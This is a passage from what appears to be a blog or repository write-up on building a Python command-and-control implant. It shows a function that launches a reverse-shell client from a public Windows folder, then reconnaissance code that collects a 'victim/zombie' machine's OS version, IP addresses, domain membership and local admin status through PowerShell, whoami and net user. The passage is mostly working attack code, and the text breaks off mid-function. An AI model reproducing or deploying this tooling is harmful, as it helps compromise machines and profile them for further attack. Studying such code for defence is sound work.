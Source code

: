 > reverse shell function

**Use the code I posted here and save it as pyrevshell_client.py:** 
**Be sure to edit the ip and port info!!!**

[https://g3tsyst3m.github.io/sockets/Create-your-own-Netcat-using-Python/](https://g3tsyst3m.github.io/sockets/Create-your-own-Netcat-using-Python/)

```python
def startrevshellcli():
    subprocess.call("C:/Users/public/pyrevshell_client.py")
    exit_event.set()
```

> Gather Victim/Zombie Operating System Info

```python
##################################
#Change this to whatever you like.  I'm using 127.0.0.1 because I'm port forwarding to virtualbox
##################################
host="127.0.0.1"
port=4545
breaktheloop=False #LOL, i don't remember what this is used for.  I coded this stuff a year ago... 😺

###################################
#This info below is fairly self-explanatory.  powershell is handy and quite efficient imho for retrieving host, os, and ip/adaptor info!
###################################

OnADomain="False"
LocalAdmin="False"
osinfo=subprocess.run("powershell.exe -command Get-CimInstance Win32_OperatingSystem | Select-Object Caption, Version | findstr Microsoft", capture_output=True, text=True)
osinfo=osinfo.stdout.strip()

try:
    ipaddrinfo=subprocess.run("powershell.exe -command (Get-NetIPAddress -AddressFamily IPv4).IpAddress | findstr /V 169. | findstr /V 127.0.0.1", capture_output=True, text=True)
    ipaddrinfo=ipaddrinfo.stdout.strip()
except:
    ipaddrinfo="No IP addresses active on system"
try:
    ######################
    #Are we on a domain?
    ######################
    domaininfo=subprocess.run("whoami /FQDN", capture_output=True, text=True)
    if "Unable" in domaininfo.stderr:
        OnADomain="False"
        print("[-] NOT domain joined")
    else:
        print("[+] domain joined!")
        OnADomain="True"
except:
    print("[!] unexpected error...")
gathering=subprocess.run("net user " + os.environ.get('USERNAME'), capture_output=True, text=True)

##################################
#Member of admins group?
##################################
if "Administrators" in gathering.stdout:
    print("[+] members of local admins!")
    LocalAdmin="True"

if OnADomain == "True":    
```